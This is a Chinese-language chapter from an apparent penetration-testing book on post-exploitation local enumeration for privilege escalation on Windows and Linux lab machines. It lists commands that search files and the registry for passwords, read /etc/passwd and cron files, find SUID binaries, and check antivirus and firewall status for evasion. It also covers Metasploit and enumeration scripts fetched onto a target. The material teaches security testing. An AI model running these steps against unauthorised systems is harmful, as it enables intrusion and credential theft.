

# 第四章：进行本地枚举

现在我们已在目标系统上获得初步控制，接下来我们需要从目标系统中枚举出更多关键信息，这对权限提升过程至关重要。这些信息将用于构建、规划和协调我们的权限提升攻击，确保成功。

因此，学习如何正确且全面地从目标系统中枚举信息，以成功提升权限，是至关重要的。

在本章中，您将了解枚举过程、它为何重要以及 Windows 和 Linux 的各种本地枚举技术。接下来，您将学习如何使用自动化枚举工具来自动化这一过程。

在本章中，我们将覆盖以下主要主题：

+   理解枚举过程

+   Windows 枚举

+   Linux 枚举

# 技术要求

为了跟随本章的演示，您需要确保满足以下技术要求：

+   熟悉 Linux 终端命令

+   熟悉 Windows 命令行

请查看以下链接，观看《代码实战》视频：

[`bit.ly/39JFTjW`](https://bit.ly/39JFTjW)

# 理解枚举过程

尽管你在*第三章*中获得了初步的系统控制，[*获得访问权限（利用）*]，但你对系统运行的操作系统、运行的服务、你在系统中的权限以及目标系统连接的网络几乎一无所知。这使得你处于盲目状态，无法发起权限提升攻击。这就是枚举的重要性所在。

**枚举**是从目标系统中提取关键信息的过程，例如操作系统版本、用户名、网络信息和已安装的程序。这些信息可以用来识别潜在的缺陷、配置错误或可以被利用的漏洞。

枚举过程可以通过计划一次抢劫的例子来类比，其中对目标的侦察和信息收集至关重要。如果没有获取足够的目标信息，这次抢劫将会因为错误而失败，几乎肯定会以失败告终。然而，如果能够认真且全面地收集目标信息，这次抢劫将会高效，因为所有相关信息都已经被收集并分析，以识别潜在的错误和问题。因此，在目标系统上执行全面的枚举工作至关重要。

本地枚举是指在**初始利用**后，积极从目标系统中收集信息。然后，这些信息将被用于识别通过漏洞或配置问题实现权限提升的潜在路径。

本地枚举过程是多方面的，因此可以根据所收集信息的类型进行分类：

+   系统枚举

+   用户和组枚举

+   网络枚举

+   密码枚举

+   防火墙和杀毒软件枚举

这种分类将有助于我们组织和结构化所收集的信息。本地枚举可以通过使用框架和脚本手动和自动执行；然而，始终推荐执行手动枚举，因为它能确保过程全面且细致地进行。

在接下来的章节中，我们将探索在 Windows 和 Linux 上手动和自动执行本地枚举的各种技术和工具。

在本章中，我们将使用在上一章中利用的以下目标虚拟机：

+   Metasploitable3

+   Windows 10

+   Metasploitable2

+   Ubuntu 20.04

使用多个操作系统版本的目的是展示并强调可以根据操作系统的版本和配置收集的各种信息。本章演示的技术适用于大多数 Windows 版本和 Linux 发行版，只有少数例外，所有这些都会被特别指出。

现在我们已经了解了枚举是什么，以及它在特权提升过程中的重要性，我们可以看看如何从 Windows 系统中枚举信息。

# Windows 枚举

我们将从 Windows 上手动开始枚举过程，并按照之前列出的类别进行方法。要开始本地枚举过程，您需要确保以 shell 的形式直接访问目标系统。如果您已经按照本书中展示的示例操作，您应该已经在目标系统上建立了一个`meterpreter`会话。

## 系统枚举

系统枚举是枚举核心系统信息的过程，如操作系统的版本和服务包、操作系统的架构、正在运行的系统服务，以及已安装的补丁和热修复。

我们可以通过以下步骤开始系统枚举过程：

1.  我们将要运行的大部分命令都是 Windows 命令提示符的本地命令，因此需要在本地 shell 会话中运行。如果您已经有了这样的会话，可以跳过此步骤。或者，如果您正在运行 `meterpreter` 会话，您需要按照以下截图中的步骤运行以下命令，以获取命令提示符会话：

    `shell`

    如下图所示，您应通过命令提示符在目标系统上获得一个活动的 shell，并且应该能够运行 Windows 特定的命令：

    

    图 4.1 – Meterpreter 命令提示符

1.  第一步是枚举操作系统信息。这可以通过运行`systeminfo`命令并将输出通过管道传递给`findstr`工具来限制输出为必要的信息。可以通过运行以下命令来完成：

    `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

    如下截图所示，命令将输出操作系统的名称、版本和架构。这些信息可以与自动化漏洞评估工具结合使用，以确定固有的权限提升漏洞。它对于筛选特定操作系统架构的利用也非常有用。操作系统版本还对于寻找特定版本操作系统的基于内核的漏洞非常有用。

    这为我们提供了足够的操作系统信息，以便缩小寻找漏洞的方法：

    

    图 4.2 – systeminfo 命令输出

1.  我们还可以使用`systeminfo`命令来确定已安装的 Windows 热修复或补丁。这可以通过运行以下命令来完成：

    `systeminfo`

    前述命令的输出如下：

    

    图 4.3 – 安装的热修复

    如前面的截图所示，输出列出了已安装的热修复的总数及其相关的 HotFix ID。这些信息有助于我们微调寻找操作系统中可能已经修复的漏洞的方法。

    注意

    `systeminfo`命令的默认输出是详细的，提供了操作系统的完整概述。

1.  您还可以通过运行以下命令来确定系统上已安装的热修复和补丁：

    `wmic qfe`

    前述命令的输出如下截图所示：

    

    图 4.4 – 安装的更新

    如前面的截图所示，命令输出了已安装的更新或补丁，并提供了额外的信息，例如补丁安装的日期和安装的用户。

    `HotFixID`可用于确定特定热修复的潜在漏洞和利用。

    我们还可以在 Windows 10 系统上运行命令，以确定已安装的补丁以及安装的时间，如下图所示：

    

    图 4.5 – Windows 10 安装的更新

1.  下一条必须枚举的信息是操作系统的主机名。可以通过运行以下命令来完成：

    `hostname`

    前述命令的输出如下：

    

    图 4.6 – 主机名

    主机名用于在网络中标识系统，并可能揭示系统的角色或系统所属的人。

1.  另一个需要枚举的重要信息是系统上附加的驱动器。我们可以通过运行以下命令来完成：

    `wmic logicaldisk get caption`

    前述命令的输出如下：

    

    ](Images/B17389_04_007.jpg)

    图 4.7 – 逻辑磁盘

    如前述截图所示，该命令将输出附加的驱动器列表及其标识符。在此案例中，唯一附加的磁盘是标记为`C:`的系统驱动器。

1.  枚举当前正在运行的进程信息也很重要。可以通过运行以下命令来完成：

    `tasklist /SVC`

    前述命令的输出如下：

图 4.8 – 正在运行的进程

如前述截图所示，该命令将输出正在运行的进程列表及其关联的服务。它还会显示进程 ID，这对于识别特定进程非常有用。

现在，我们已经了解目标系统正在运行的内容，可以开始识别目标系统中的用户。

## 用户和组枚举

用户枚举是识别我们当前正在使用的用户及目标系统中存在的用户帐户的过程。此信息非常有用，因为它告诉我们是否拥有管理员权限。它还帮助我们确定并识别可以利用的潜在用户帐户，以提升我们的权限。

在 Windows 上，用户枚举过程非常简单，可以通过以下步骤进行：

1.  首先，我们需要确定当前正在使用的用户。可以通过运行以下命令来实现：

    `whoami`

    如果你有管理员权限，你的用户名应该是`nt authority`，如下图所示：

    

    ](Images/B17389_04_009.jpg)

    图 4.9 - whoami

1.  我们还可以通过运行以下命令来确定我们的权限：

    `whoami /priv`

    前述命令的输出如下：

    

    ](Images/B17389_04_010.jpg)

    图 4.10 – whoami 权限

    如前述截图所示，这将输出已分配给我们帐户的权限，并简要描述每个权限及其当前状态。我们在*第一章*《权限提升简介》中简要讨论了权限，在那里我们解释了访问令牌。权限的重要性将在本书后续章节中突出，当我们探讨令牌冒充攻击时。

1.  要确定我们的帐户所属的组，可以运行以下命令：

    `whoami /groups`

    前述命令的输出如下：

    

    ](Images/B17389_04_011.jpg)

    图 4.11 – whoami groups

1.  我们还可以通过运行以下命令枚举系统上活动的用户账户：

    `net user`

    前述命令的输出如下：

    

    图 4.12 – net user

    如前面的截图所示，该命令将输出系统上所有用户的列表。这提供了关于我们可以以横向方式升级权限的帐户的有用信息。我们还可以通过运行以下命令获取特定用户的附加信息：

    `net user <username>`

    这也有助于我们识别属于管理组并具有管理员特权的帐户，如下图所示：

    

    图 4.13 – 用户枚举

1.  我们还可以通过运行以下命令确定属于管理组的用户：

    `net localgroup administrators`

    前述命令的输出如下：

图 4.14 – Net localgroup

如前面的截图所示，该命令将概述属于管理组的用户。这使我们清楚地了解了我们可以针对以获取管理权限的帐户。

## 网络枚举

网络枚举是获取目标系统所有相关网络信息的过程，旨在确定其 IP 地址、DNS 服务器、默认网关及域控制器（如果有）。这些信息可用于绘制目标网络地图并进行逐级攻击。让我们来看看：

1.  第一步涉及枚举目标网络接口及其详细信息。可以通过运行以下命令完成：

    `ipconfig /all`

    前述命令的输出如下：

    

    图 4.15 – ipconfig

    如前面的截图所示，这将显示关于特定网络接口的所有相关网络信息：其 IP 地址、DNS 服务器和默认网关。

1.  下一步是分析路由表。可以通过运行以下命令完成：

    `route print`

    前述命令的输出如下：

    

    图 4.16 – 路由表

1.  我们还需确定正在运行的服务及其相应的端口。可以通过以下参数运行 `netstat` 命令完成：

    `netstat -ano`

    前述命令的输出如下：

图 4.17 – Netstat 活动连接

如前面的截图所示，该命令将显示所有活动连接及其相应的端口和进程 ID（**PIDs**）。

此命令还可用于识别来自其他主机的活动连接，如下图所示：

图 4.18 – Netstat 已建立连接

这些信息很重要，因为它们可能还会揭示一些以前在初始足迹阶段未被发现的内部服务，这些服务实际上是在本地运行的。

现在我们已经枚举了目标的网络信息，接下来我们将学习如何查找和枚举密码。

## 密码枚举

密码枚举是查找和定位本地存储密码的过程，形式包括明文存储的用户密码、包含密码的配置文件、存储在 Windows 注册表中的密码以及存储在**安全帐户管理器**（**SAM**）数据库中的 Windows 哈希值。

当我们研究自动化工具时，将更详细地探讨密码枚举，因为从注册表和 SAM 数据库手动枚举密码的过程可能会非常耗时。

在本节中，我们将使用手动技术，如字符串匹配。让我们开始吧：

1.  我们可以利用`findstr`实用程序来定位文件中的特定字符串。例如，我们可以运行以下命令，在常用的文件扩展名文件中查找`password`字符串：

    `findstr /si password *.doc *.txt *.ini *.config`

    这对于查找用户或管理员存储的明文密码很有用，这些密码可能包含其他帐户或服务的密码。

1.  我们还可以搜索与服务相关的特定字符串，如**安全外壳**（**SSH**）和**文件传输协议**（**FTP**）。这可以通过运行以下命令完成：

    `dir /s *pass* == *cred* == *ssh* == *.config*`

1.  我们可以通过运行以下查询，在注册表中搜索特定程序和软件的密码：

    `reg query HKLM /f password /t REG_SZ /s`

    这将显示包含`password`字符串的所有条目，位于`HKEY_LOCAL_MACHINE`注册表中，如下图所示。你也可以对`HKEY_CURRENT_USER`注册表运行相同的查询。这可以通过运行以下命令完成：

    `reg query HKCU /f password /t REG_SZ /s`

    上述命令的输出如下：

图 4.19 – Windows 注册表中的密码枚举

我们还可以在配置文件和特定程序（如 PuTTY 或 VNC）的会话信息中搜索密码。可以通过运行以下命令并指定程序的默认注册表目录来完成此操作：

reg query "HKCU\Software\SimonTatham\PuTTY\Sessions\<User>"

在这种情况下，查询将显示为查询中指定用户的 PuTTY 会话详细信息。

注意

用户 Simon Tatham 在 `HKCU\Software\SimonTatham\PuTTY\Sessions\<User>` 注册表目录中引用了 PuTTY 程序的开发者。

现在我们已经了解如何使用手动查询技术从 Windows 中枚举密码，我们需要识别并列出当前在系统上启用的安全功能。

## 防火墙和杀毒软件枚举

为了成功提升我们的权限并保持系统上的持久性，我们需要了解可能妨碍该过程的安全措施和系统。Windows 系统中最常见的两种安全防范措施是 Windows 防火墙和 Windows Defender，尽管其他第三方杀毒软件也可能提供帮助。

在渗透测试中，能够检测和规避防火墙和杀毒软件解决方案是非常重要的。因为权限提升过程涉及主动与目标交互，并在目标系统之间传输文件。防火墙和杀毒软件可能会妨碍该过程，并可能向安全团队或管理员发出潜在违规的警报。因此，枚举有关防火墙状态和规则以及现有的杀毒软件解决方案的信息是非常重要的。让我们来看一下：

1.  首先，在复制任何文件之前，您需要确定 Windows Defender 的状态。这可以通过使用服务控制命令来完成：

    `sc query windefend`

    由于 Metasploitable3 虚拟机的设计故意存在漏洞，因此 Windows Defender 没有启用，因此我们必须使系统处于易受攻击和未受保护的状态，如下图所示：

    

    ](Images/B17389_04_020.jpg)

    图 4.20 – 禁用 Windows Defender

    如果 Windows Defender 已启用并处于活动状态，您应得到类似以下的输出：

    

    图 4.21 – 启用并运行 Windows Defender

1.  要识别第三方杀毒软件解决方案，您可以列出系统上正在运行的服务。这可以通过运行以下命令来完成：

    `sc queryex type=service`

    如果有第三方杀毒软件正在运行，您应该通过分析服务名称来识别它，如下图所示。在这里，我已经能够检测到一个与 Windows Defender 一同运行的第二个第三方杀毒程序：

    

    图 4.22 – 第三方 A/V

1.  我们还需要枚举有关防火墙状态和配置的信息。这将帮助我们检测开放的端口，并可以利用这些端口进行进一步攻击。可以通过运行以下命令来完成：

    `netsh firewall show state`

    上述命令的输出如下：

](Images/B17389_04_023.jpg)

图 4.23 – 防火墙状态

如前面的截图所示，命令将输出防火墙的操作模式、配置文件和开放端口。这使我们清楚地了解从网络角度来看我们能做什么和不能做什么。

我们现在应该清楚地了解目标系统正在运行的内容以及其配置情况。现在，让我们学习如何使用各种自动化工具来简化枚举过程。

## 自动化枚举工具

自动化枚举提供了一种更具针对性和高效的方法，用于从目标系统收集信息，并由此进行分析。使用自动化枚举工具的主要目标是能够理解和上下文化收集到的信息，并基于这些信息提供建议。

有许多用于 Windows 的自动化枚举工具。然而，我们只会关注那些高概率有效且不需要额外依赖或访问特定工具的工具。

### 本地漏洞建议工具

本地漏洞建议工具是 Metasploit 的一个后期利用模块，用于根据操作系统信息扫描目标是否存在潜在的漏洞。它自动化了系统信息的枚举过程，并根据操作系统的版本和已安装的补丁提供漏洞建议。让我们来看看：

1.  要使用该模块，您需要在目标系统上获得`meterpreter`访问权限，然后将`meterpreter`会话移到后台并加载`local_exploit_suggester`模块。这可以通过运行以下命令来完成：

    `use post/multi/recon/local_exploit_suggester`

1.  现在，您需要配置模块选项。我们需要设置的唯一选项是会话号，如下图所示。这可以通过运行以下命令来完成：

    **set SESSION <会话编号>**

    上述命令的输出如下：

    

    图 4.24 – 本地漏洞建议工具

1.  配置完选项后，您可以运行该模块。此时，模块将开始枚举过程，并在几分钟后输出结果，如下图所示：

图 4.25 – 本地漏洞建议工具结果

模块的输出将显示各种漏洞模块，其中大多数是可以用于攻击目标的内核漏洞。我们将在下一节探讨这一点。

### Windows 漏洞建议工具

Windows 漏洞建议工具是一个用 Python 开发的开源工具，它允许您扫描 Windows 操作系统中的潜在漏洞。它还提供相应的漏洞或漏洞模块。

它通过将 Windows 补丁级别与 Microsoft 漏洞数据库进行比较，来检测系统中的漏洞。它的工作原理是通过识别系统中缺失的补丁来实现这一点。

它不需要在目标系统上本地运行，只需要目标系统上 `systeminfo` 命令的输出。我们开始吧：

1.  第一步是克隆 [`github.com/AonCyberLabs/Windows-Exploit-Suggester`](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 上的仓库到我们的 Kali 虚拟机。这可以通过运行以下命令来完成：

    `git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git`

    该工具需要 Python2 才能工作，因为它使用了多个 Python2 模块。

    注意

    Python2 从 2020 年 1 月 1 日开始已被废弃。这意味着您可能会遇到旧版工具和框架的依赖问题。

1.  克隆仓库后，您需要安装所需的依赖项。可以通过运行以下命令来完成：

    `sudo apt-get install python-xlrd`

    `pip install xlrd --upgrade`

1.  安装完依赖项后，您需要通过运行脚本并使用以下标志来更新数据库：

    **./windows-exploit-suggester.py –update**

    输出如以下截图所示：

    

    图 4.26 – Windows Exploit Suggester 更新

    请注意数据库的文件名，如下图所示，它将在扫描阶段中使用：

    

    图 4.27 – Windows Exploit Suggester 数据库文件

1.  下一步是通过运行 `systeminfo` 命令来枚举目标系统信息，之后需要将该命令的输出复制并粘贴到 `.txt` 文件中。

1.  在保存 `systeminfo` 命令的输出到 `.txt` 文件后，您可以运行脚本来检查漏洞，如下所示：

    `./windows-exploit-suggester.py --database <database-file>.xlsx --systeminfo <systeminfo-output>.txt`

    此命令的输出如下：

图 4.28 – Windows Exploit Suggester 输出

如前面的截图所示，脚本将执行扫描，并输出所有潜在漏洞及相关信息的列表，例如 POC 参考和可在 `exploit-db` 或 GitHub 上找到的利用代码或模块。

这些信息将在下一章中派上用场，当我们探索 Windows 上的内核利用时。

### 其他枚举工具

如我们在本节前面所提到的，许多自动化枚举工具已经存在，并且可以提供额外的功能和信息，大多数我们将在本书后面探讨。

以下是一些适用于 Windows 的有用枚举工具和框架列表：

+   **Windows 特权提升超级脚本 (winPEAS)**: [`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)

+   `Sherlock`: [`github.com/rasta-mouse/Sherlock`](https://github.com/rasta-mouse/Sherlock)

+   `Just Another Windows Enumeration Script** (`JAWS**): [`github.com/411Hall/JAWS`](https://github.com/411Hall/JAWS)

+   `Watson`: [`github.com/rasta-mouse/Watson`](https://github.com/rasta-mouse/Watson)

现在我们知道如何在 Windows 上执行本地枚举，我们将学习如何在 Linux 上执行本地枚举。

# Linux 枚举

在 Linux 上进行本地枚举与在 Windows 上类似，涉及使用手动技术和工具来枚举重要信息。在本节中，我们将探索一些帮助简化和流线化枚举过程的自动化工具。

注意

包管理器根据不同的 Linux 发行版会有所不同。接下来的章节将指出并强调这一点。

## 系统枚举

系统枚举是枚举核心系统信息的过程，例如操作系统版本、内核版本、操作系统架构和正在运行的服务。

我们可以通过以下步骤执行系统枚举：

1.  我们需要枚举的第一项信息是操作系统的信息。可以通过运行以下命令来完成：

    `cat /etc/*-release`

    你还可以使用 `Linux Standard Base** (`LSB**) 信息。可以通过运行以下命令来完成：

    `lsb_release -a`

    如果这些命令无效，你可以使用 hostname systemd 实用程序，运行以下命令：

    `hostnamectl`

1.  你还需要知道内核版本和操作系统架构。这将有助于确定漏洞并寻找内核漏洞。可以通过运行以下命令来完成：

    `uname -a`

    前述命令的输出如下：

    

    图 4.29 – Linux 内核版本

    如前面的截图所示，命令将输出内核版本和系统架构。

1.  你还需要识别作为 root 用户运行的进程。这很有用，因为你可以利用这些进程作为 root 用户执行任意命令。可以通过运行以下命令来完成：

    `ps aux | grep root`

    如下截图所示，这将列出所有作为 root 用户运行的进程：

    

    图 4.30 – Linux 服务运行情况

1.  Linux 上的另一个潜在特权提升访问向量是已安装的程序和软件。我们可以通过列出以下目录的内容来确定系统上已安装的软件：

    a) `/usr/local`

    b) `/usr/local/bin`

    c) `/opt/`

    d) `/var`

    e) `/usr/src`

    你可以通过运行以下命令列出 Debian 系统上已安装的包：

    `dpkg -l`

    如果目标系统运行的是 RHEL 或 Fedora，可以通过运行以下命令列出已安装的软件：

    `rpm -qa`

    现在我们已经枚举了操作系统版本和内核版本的信息，接下来我们将学习如何在 Linux 上枚举用户和组信息。

1.  我们还可以枚举 cron 中的信息，确定哪些 cron 作业正在运行，以及是否可以利用这些作业来执行命令或二进制文件。可以通过运行以下命令来完成：

    `crontab -l`

    `ls -al /var/spool/cron`

    `ls -al /etc/ | grep cron`

    `ls -al /etc/cron*`

    `cat /etc/cron*`

    `cat /etc/at.allow`

    `cat /etc/at.deny`

    `cat /etc/cron.allow`

    `cat /etc/cron.deny`

    `cat /etc/crontab`

    `cat /etc/anacrontab`

    `cat /var/spool/cron/crontabs/root`

现在我们已经清楚了解目标系统上正在运行的内容，可以开始枚举用户和组信息了。

## 用户和组枚举

用户枚举是确定我们当前使用的用户以及目标系统上所有用户账户的过程。这些信息很有用，因为它告诉我们是否拥有管理员权限。它还帮助我们确定和识别潜在的用户账户，以便提升我们的权限。

在 Linux 上，用户枚举过程相当直接，可以按照以下步骤进行：

1.  首先，我们需要确定当前正在使用的用户。可以通过运行以下命令来完成：

    `whoami`

    上述命令的输出如下：

    

    图 4.31 – whoami Linux

    如果你有管理员权限，你的用户名应该是`root`，如前面的截图所示。

    你还可以通过运行以下命令枚举系统中的其他用户账户：

    `cat /etc/passwd`

1.  为了确定我们账户所属的组，可以运行以下命令：

    `groups <username>`

    上述命令的输出如下：

    

    ](Images/B17389_04_032.jpg)

    图 4.32 – Linux 组

    你还可以通过运行以下命令列出系统中的组：

    `cat /etc/group`

1.  你可以搜索可以被利用的 SUID 二进制文件，并用 root 权限运行这些文件来执行任意命令。可以通过运行以下命令来完成：

    `find / -perm -u=s -type f 2>/dev/null`

现在，让我们学习如何从目标系统枚举网络信息。

## 网络枚举

网络枚举是从目标系统中获取所有相关网络信息的过程，目的是确定其 IP 地址、DNS 服务器、默认网关以及域控制器（如果有的话）。这些信息可以用来绘制目标网络图并进行跨网络攻击。我们来看一下：

1.  第一部是枚举目标网络接口及其详细信息。可以通过运行以下命令来完成：

    `ifconfig`

    上述命令的输出如下：

    

    图 4.33 – ifconfig

1.  下一步是分析路由表。可以通过运行以下命令来完成：

    `route`

    上述命令的输出如下：

    

    ](Images/B17389_04_034.jpg)

    图 4.34 – Linux 路由表

1.  我们还需要确定运行的服务及其各自的端口。可以通过运行带有以下参数的`netstat`命令来完成：

    `netstat -ant`

    上述命令的输出如下：

图 4.35 – Netstat 活动连接

如上图所示，命令将显示所有活动连接及其相应端口。

这些信息很重要，因为它们可能揭示出以前在初步足迹收集阶段未被发现的、在本地运行的内部服务。

我们现在应该清楚了解目标系统正在运行什么，以及它是如何配置的。现在，让我们学习如何使用各种自动化工具来简化枚举过程。

## 自动化枚举工具

目前有很多用于 Linux 的自动化枚举工具。本节将重点介绍那些能为我们提供有意义且可操作信息的工具。

### LinEnum

LinEnum 是一个 bash 脚本，自动化了 Linux 上的本地枚举过程，提供全面的信息，帮助指定所需的信息，并能够生成报告。

您可以在[`github.com/rebootuser/LinEnum`](https://github.com/rebootuser/LinEnum)了解更多关于该脚本的信息。我们开始吧：

1.  要使用该工具，我们需要从 GitHub 下载 bash 脚本并将其传输到目标系统。如果目标系统可以访问互联网，我们可以直接通过运行以下命令下载脚本：

    `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

1.  如果目标系统阻止任何传入连接，我们可以通过`meterpreter`从本地系统上传脚本到目标，如下图所示：

    图 4.36 – LinEnum 下载

1.  然后，我们可以使用以下参数执行脚本：

    `./LinEnum.sh -t -r <report-name>`

    这将枚举所有相关信息，并显示可能被利用的有用漏洞，如下图所示：

    

    图 4.37 – LinEnum 结果

1.  我们还可以使用关键词功能来枚举系统上的密码。可以通过运行以下命令来实现：

    `./LinEnum.sh -k password`

现在，让我们学习如何枚举目标系统上的潜在漏洞。

### Linux Exploit Suggester

Linux Exploit Suggester 是一个开源 Shell 脚本，允许您扫描 Linux 系统中的潜在内核漏洞，并提供相应的漏洞利用或漏洞利用模块。让我们开始吧：

1.  脚本需要在目标系统上本地运行。首先，我们需要将脚本下载到目标系统。这可以通过`wget`命令完成，如下所示：

    `wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh`

1.  在将脚本下载到目标系统后，您需要确保该脚本具有可执行权限。可以通过运行以下命令来完成此操作：

    `chmod +x les.sh`

1.  现在，您可以运行脚本以开始扫描过程，之后脚本将输出潜在漏洞的列表以及相应的 POC 和漏洞利用方法。

现在您已经掌握了如何使用各种枚举工具，让我们来探讨一些其他的自动化枚举工具，它们也可以被使用。

### 其他枚举工具

正如我们在本节前面提到的，存在许多自动化枚举工具，可以提供额外的功能和信息，其中大多数我们将在本书后面进行探讨。

以下是一些适用于 Linux 的有用枚举工具和框架：

+   Linux Smart Enumeration: [`github.com/diego-treitos/linux-smart-enumeration`](https://github.com/diego-treitos/linux-smart-enumeration)

+   Linux Priv Checker – `linuxprivchecker.py`: 一个用于 Linux 权限提升检查的脚本

+   权限提升脚本: [`github.com/carlospolop/privilege-escalation-awesome-scripts-suite`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

+   LinEnum: [`github.com/rebootuser/LinEnum`](https://github.com/rebootuser/LinEnum)

通过这些内容，我们已经学会了如何从 Windows 和 Linux 系统中枚举信息。现在，我们已经准备好利用这些信息来进行权限提升攻击。

# 总结

本章中，我们首先了解了枚举过程。然后，我们学习了如何在 Windows 上手动和自动执行本地枚举。最后，我们学习了如何在 Linux 上执行本地枚举。

现在我们已经学会了如何在 Windows 和 Linux 上执行本地枚举，可以开始权限提升过程了。

在下一章中，我们将通过使用内核漏洞开始 Windows 上的权限提升过程。
